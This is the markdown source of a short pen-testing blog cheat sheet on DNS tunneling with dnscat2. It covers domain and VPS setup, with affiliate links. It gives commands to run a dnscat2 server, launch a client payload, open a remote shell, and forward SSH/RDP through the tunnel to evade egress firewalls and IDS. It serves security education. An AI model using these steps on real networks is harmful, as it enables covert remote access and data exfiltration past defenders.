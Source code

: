 ```yaml
---
layout: blog_item
title: "DNS Tunneling dnscat2 Cheat Sheet"
date:   2021-06-04 10:29:10
author: Arr0way
description: 'Learn what DNS tunneling is, when to use it on a pen test and how to tunnel over DNS using dnscat2.'
categories: [cheat-sheet]
tags:

- 'Infrastructure'
---
```


* list element with functor item
{:toc}

## What is DNS Tunneling 

DNS tunneling is used to evade egress firewall rules and/or IDS / proxy or other web filtering applicances by tunneling data over DNS. DNS tunneling usually works as external DNS resolution is available on most networks, it should be noted that DNS tunneling is slow due to the low amounts of data that can be transfered. 
<!--more-->

**What You Will Learn:**

- What is DNS tunneling 
- How to setup dnscat2
- How to tunnel data over dnscat2 

## You Will Need

1. A real world domain, <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> works well and has free WHOIS privacy.
2. A VPS to run DNSCAT2 - <a href="https://www.linode.com/?r=de68d06f20e245c4952795b3a57180b223ff4d42" rel="nofollow">Linode is cheap and works for this</a> (see instructions below) 

In order to tunnel data over DNS a real world domain must be used and the domains authoritivate name servers must be set to servers in your control. 


## Buying a Domain 

<a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a>  offers free domain WHOIS privacy, a lot of extensions and is well priced. 

### How to Change Name Servers On NameSilo 

Login to <a href="https://www.namesilo.com/?rid=45f0146bp " rel="nofollow">NameSilo</a> and follow these instructions to change the authoritative name servers: 

1.  Go to the Domain Manager page within your account
2.  Click the applicable domain name (it will be underlined in black)
3.  Click the "View/Manage Registered NameServers" link within the "NameServers" box

## DNS Forwarding with Dnscat2  

1. Install dsncat2 ```apt-get install dnscat2 -y```
2. Run:  ```dnscat2-server yourdomain.com``` on your VPS
3. From the client machine you will need to run the dnscat2 payload 
4. If your domain's NS are configured correctly the session should be established 
5. Enter ```session -i``` to spawn an interactive session 
6.  Launch a shell using ```shell```

## Dnscat2 Port Forwarding 

Dnscat2 supports TCP forwarding allowing you to tunnel SSH or RDP connections over the established DNS tunnel. 

{% highlight bash %} 
command (client) 4> listen 127.0.0.1:22 target:22 
{% endhighlight %}

Again this will slow but functional. 

Enjoy.	
